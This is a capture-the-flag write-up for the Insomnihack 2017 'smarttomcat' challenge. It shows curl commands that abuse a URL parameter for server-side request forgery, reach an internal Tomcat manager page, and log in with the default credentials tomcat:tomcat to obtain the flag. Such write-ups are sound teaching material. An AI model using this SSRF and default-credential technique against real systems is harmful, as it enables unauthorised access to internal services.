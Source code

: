 ```yaml
---
layout: post
title:  "Write UP Insomniack smarttomcat!"
date:   2017-01-23 16:50:00 +0100
categories: jekyll update
---
```


For this chall we were provided this internet page:
![smarttomcat]({{ site.url }}/assets/insomnihack/smarttomcat.png)

When we try to enter some coordinates, we can see that it's doing a *POST* request on *index.php* with *u="http://localhost:8080/index.jsp?x=32&y=23"* as parameter.

We then try to do the request with curl:

`curl -X POST  'http://smarttomcat.teaser.insomnihack.ch/index.php' --data-urlencode "u=http://localhost:8080/index.jsp?x=3&y=4"`

and we are rewarded a 

`Tomcat not found ! Try again`

So we try to change the url for the *u* paramter:

`curl -X POST  'http://smarttomcat.teaser.insomnihack.ch/index.php' --data-urlencode "u=http://localhost:8080/lol"`

`Apache Tomcat/7.0.68 (Ubuntu) - Error report : NOT FOUND`

Now that we know it's an Apache Tomcat, we can search for special files like manager/html:

`curl -X POST  'http://smarttomcat.teaser.insomnihack.ch/index.php' --data-urlencode "u=http://localhost:8080/manager/html"`

Answer:

`This request requires HTTP authentication.`


So we try to authenticate with default username and password:

`curl -X POST  'http://smarttomcat.teaser.insomnihack.ch/index.php' --data-urlencode "u=http://tomcat:tomcat@localhos
t:8080/manager/html"`

Answer:

`We won't give you the manager, but you can have the flag : INS{th1s_is_re4l_w0rld_pent3st}`

Here we have the flag !
